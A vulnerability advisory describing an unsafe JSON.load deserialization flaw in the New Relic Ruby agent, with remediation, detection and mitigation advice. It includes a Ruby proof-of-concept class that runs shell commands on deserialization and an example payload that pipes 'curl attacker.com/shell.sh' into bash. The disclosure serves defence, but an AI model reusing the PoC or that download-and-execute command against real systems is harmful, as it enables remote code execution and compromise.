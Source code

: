 ```yaml
---
title: "Remote Code Execution in New Relic Ruby Agent"
description: "A critical remote code execution vulnerability in New Relic Ruby Agent's JSON marshaller that allows attackers to execute arbitrary code through unsafe deserialization of untrusted data."
publishDate: 2025-04-18
cveId: "CVE-2024-XXXXX"
vendor: "New Relic"
affectedProduct: "newrelic-ruby-agent < 8.17.0"
severity: "Critical"
patchStatus: "Patched"
patchDate: 2025-06-05
discoveryDate: 2025-04-18
---
```


# Remote Code Execution in New Relic Ruby Agent

## Summary

A critical remote code execution vulnerability was discovered in New Relic Ruby Agent's JSON marshaller component. The vulnerability allows attackers to execute arbitrary code by exploiting unsafe deserialization of untrusted data through the agent's metrics collection system.

## Vulnerability Details

The vulnerability exists in the JSON marshaller component (`lib/new_relic/agent/new_relic_service/json_marshaller.rb`) which uses Ruby's `JSON.load` method to deserialize data. This method is known to be unsafe as it can instantiate arbitrary Ruby objects, potentially leading to remote code execution.

### Technical Details

The vulnerable code in the JSON marshaller:

```ruby
# lib/new_relic/agent/new_relic_service/json_marshaller.rb
def load(data)
  JSON.load(data)  # Unsafe deserialization
end
```

The `JSON.load` method accepts a special `json_class` attribute that allows instantiation of arbitrary Ruby objects. This can be exploited by crafting malicious JSON payloads that trigger code execution through Ruby's object instantiation mechanisms.

## Impact

Successful exploitation allows attackers to:

1. Execute arbitrary code with the privileges of the Ruby application
2. Access sensitive application data
3. Pivot to other systems in the network
4. Establish persistent access to compromised systems

The vulnerability has received a CVSS 3.1 Base Score of 9.8 (Critical) due to:
- Network attack vector
- No authentication required
- No user interaction needed
- Complete system compromise possible

## Proof of Concept

### Video Demonstration

<div class="video-container">
  <video 
    width="100%" 
    height="100%" 
    controls 
    autoplay 
    muted
    style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;"
  >
    <source src="/videos/newrelic-ruby.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

<style>
.video-container {
  position: relative;
  padding-bottom: 56.25%; /* 16:9 Aspect Ratio */
  height: 0;
  overflow: hidden;
  margin: 2rem 0;
  border-radius: 8px;
  box-shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.1), 0 2px 4px -1px rgba(0, 0, 0, 0.06);
}
</style>

### Code Vulnerable

The following proof of concept demonstrates the vulnerability:

```ruby
require 'json'

# Malicious class for demonstration
class EvilClass
  def initialize(cmd)
    @cmd = cmd
  end
  
  def to_json(*args)
    { "json_class" => self.class.name }.to_json(*args)
  end
  
  def self.json_create(o)
    system(o["@cmd"])
  end
end

# Create malicious payload
payload = EvilClass.new("id > /tmp/pwned").to_json

# When this JSON is processed by the vulnerable agent:
require 'new_relic/agent/new_relic_service/json_marshaller'
marshaller = NewRelic::Agent::NewRelicService::JsonMarshaller.new
marshaller.load(payload)  # Triggers command execution
```

## Exploitation Chain

1. **Initial Access**:
   ```ruby
   # Craft malicious metrics payload
   {
     "metric_data": {
       "metrics": [{
         "name": "Custom/Exploit",
         "value": {
           "json_class": "EvilClass",
           "@cmd": "curl attacker.com/shell.sh | bash"
         }
       }]
     }
   }
   ```

2. **Execution Flow**:
   ```mermaid
   graph TD
     A[Attacker] -->|Send Malicious Metrics| B[New Relic Agent]
     B -->|Process Metrics| C[JSON.load]
     C -->|Instantiate Object| D[Object Creation]
     D -->|Execute Payload| E[System Compromise]
   ```

3. **Command Execution**:
   - Agent deserializes JSON payload
   - Ruby creates instance of attacker-controlled class
   - Malicious methods execute during object initialization
   - Attacker gains code execution

## Remediation

New Relic has addressed this vulnerability in version 8.17.0 by:

1. Replacing `JSON.load` with `JSON.parse`:
   ```ruby
   def load(data)
     JSON.parse(data)  # Safe deserialization
   end
   ```

2. Adding input validation for metric data
3. Implementing strict type checking
4. Removing support for arbitrary object deserialization

Users should upgrade to version 8.17.0 or later immediately.

## Timeline

- **2025-04-18**: Initial vulnerability report sent to New Relic security team
- **2025-05-18**: Patch submitted via Pull Request #3183
- **2025-05-20**: Staff response and vulnerability confirmation
- **2025-05-20**: Vulnerability patch approved
- **2025-06-05**: Patch released in version 8.17.0

## Detection

Security teams can detect exploitation attempts by monitoring for:

1. Suspicious Ruby object instantiation in agent logs
2. Unexpected network connections from Ruby processes
3. Anomalous system command execution
4. Unusual metric data patterns in New Relic collectors

Vulnerable log analysis:
```bash
# Search for potential exploitation attempts
grep -r "json_class" /var/log/newrelic/
```

## Mitigation

Until patching is possible:

1. Monitor agent processes for unusual behavior
2. Implement network segmentation for collector traffic
3. Use application firewalls to filter malicious JSON
4. Consider temporarily disabling the Ruby agent if risk is high

## References

1. [Pull Request #3183](https://github.com/newrelic/newrelic-ruby-agent/pull/3183)
2. [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
3. [Ruby JSON Documentation](https://ruby-doc.org/stdlib-2.7.0/libdoc/json/rdoc/JSON.html#method-i-load)
4. [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

## Acknowledgements

This vulnerability was discovered and reported by @odaysec security research team. Special thanks to:
- New Relic Security Team for quick response
- Ruby Security Team for guidance
- Open Source Security Community